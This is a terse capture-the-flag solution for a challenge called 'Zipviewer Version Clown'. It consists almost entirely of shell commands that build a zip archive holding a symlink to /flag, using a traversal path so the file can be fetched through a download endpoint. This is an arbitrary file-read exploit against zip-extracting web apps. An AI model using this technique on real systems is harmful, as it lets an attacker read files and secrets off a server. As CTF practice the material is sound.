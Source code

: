 ## Zipviewer Version Clown

Solution:

```
mkdir sol
cd sol
ln -s /flag f
mkdir a
cd ..
zip -y sol.zip sol/a/../f

GET /download/sol/f

``` 